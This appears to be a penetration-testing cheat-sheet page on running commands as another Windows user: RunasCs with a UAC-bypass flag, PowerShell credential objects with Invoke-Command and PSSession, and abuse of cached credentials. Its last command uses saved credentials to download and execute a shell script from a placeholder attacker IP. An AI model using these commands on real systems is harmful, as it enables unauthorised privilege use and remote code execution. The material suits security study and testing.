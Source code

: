 ```yaml
---
title: "Runas"
date: 2024-7-10
tags: ["Powershell", "Credential Object", "Windows", "Runas"]
---
```


### RunasCS

```console
.\RunasCs.exe '<USER>' '<PASSWORD>' "<CMD>" -l <LOGON_TYPE>
```

```console
# Or
.\RunasCs.exe '<USER>' '<PASSWORD>' --bypass-uac "<CMD>" -l <LOGON_TYPE>
```

<br>

```console
2  Interactive
3  Network
4  Batch
5  Service
7  Unlock
8  NetworkCleartext
9  NewCredentials
10 RemoteInteractive
11 CachedInteractive
```

### Create credential object

{{< tab set1 tab1 >}}Method #1{{< /tab >}}
{{< tab set1 tab2 >}}Method #2{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
```

```console
$cred = New-Object System.Management.Automation.PSCredential($username, $password)
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = '<PASSWORD>'
```

```console
$secstr = New-Object -TypeName System.Security.SecureString
```

```console
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
```

{{< /tabcontent >}}

### Runas (with cred object)

{{< tab set2 tab1 >}}Invoke-Command{{< /tab >}}
{{< tab set2 tab2 >}}PSSession{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
# Set computer to localhost if running locally
Invoke-Command -ScriptBlock { <CMD> } -Credential $cred -Computer <COMPUTER_NAME>
```

```console
# If error, try
Invoke-Command -ScriptBlock { <CMD> } -Credential $cred -Computer <COMPUTER_NAME> -auth credssp
```

```console
# Invoke command with config
Invoke-Command -ScriptBlock { <CMD> } -Credential $cred -Computer <COMPUTER_NAME> -ConfigurationName config_name
```

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

```console
new-pssession -computername . -credential $cred
```

```console
# Switch to new session
enter-pssession 1
```

{{< /tabcontent >}}

### Runas (with cache creds)

#### Check cache creds

```console
cmdkey /list
```

#### Run Command

```console
# e.g. Upload and run a shell
runas /user:<DOMAIN>\<USER> /savecred "powershell iex(new-object net.webclient).downloadstring('http://<LOCAL_IP>/shell.ps1')"
```
